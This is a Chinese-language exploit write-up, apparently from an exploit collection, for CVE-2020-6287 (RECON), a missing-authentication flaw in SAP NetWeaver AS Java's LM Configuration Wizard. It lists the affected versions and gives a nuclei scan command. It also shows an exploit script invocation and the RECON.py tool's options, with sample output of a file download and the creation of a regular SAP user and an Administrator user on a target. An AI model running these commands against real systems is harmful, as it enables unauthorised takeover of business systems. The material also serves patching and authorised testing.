 ## 漏洞概述

在`SAP NetWeaver AS Java` 的`LM`配置向导中缺乏身份验证，未经身份验证的远程攻击者可以执行有危害的操作，包括但不限于创建管理员用户。攻击者可能获得对`adm`的访问权限，`adm`是操作系统用户，它可以无限制地访问与`SAP`系统相关的所有本地资源。

## 影响范围

```http
SAP NetWeaver AS JAVA（LM Configuration Wizard）7.30
SAP NetWeaver AS JAVA（LM Configuration Wizard）7.31
SAP NetWeaver AS JAVA（LM Configuration Wizard）7.40
SAP NetWeaver AS JAVA（LM Configuration Wizard）7.50
```

## POC

```bash
nuceli -tags sap -t cves/ -l urls.txt
```

## EXP

```bash
python CVE-2020-6287.py http://vul-IP:50000/ test123 test@123123
```
## EXP (RECON.py)

[chipik/SAP_RECON](https://github.com/chipik/SAP_RECON)
Just point SAP NW AS Java hostnmae/ip.

There is additional options:

1. `-c` - check if SAP server is vulnerable to RECON
2. `-f` - download `zip` file from SAP server
3. `-u` - create user SAP JAVA user with  `Authenticated User` role 
4. `-a` - create user SAP JAVA user with  `Administrator` role


Ex.: Download zip file

```bash
python RECON.py -H 172.16.30.8 -f /1111.zip
Check1 - Vulnerable! - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Ok! File zipfile_929.zip was saved
```


Ex.: Create SAP JAVA user

```bash
~python RECON.py -H 172.16.30.8 -u
Check1 - Vulnerable! - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Going to create new user. sapRpoc5484:Secure!PwD9379
Ok! User were created
```

Ex.: Create SAP JAVA Administrator user

```bash
~python RECON.py -H 172.16.30.8 -a
Check1 - Vulnerable! [CVE-2020-6287] (RECON) - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Going to create new user sapRpoc5574:Secure!PwD7715 with role 'Administrator'
Ok! Admin user were created
```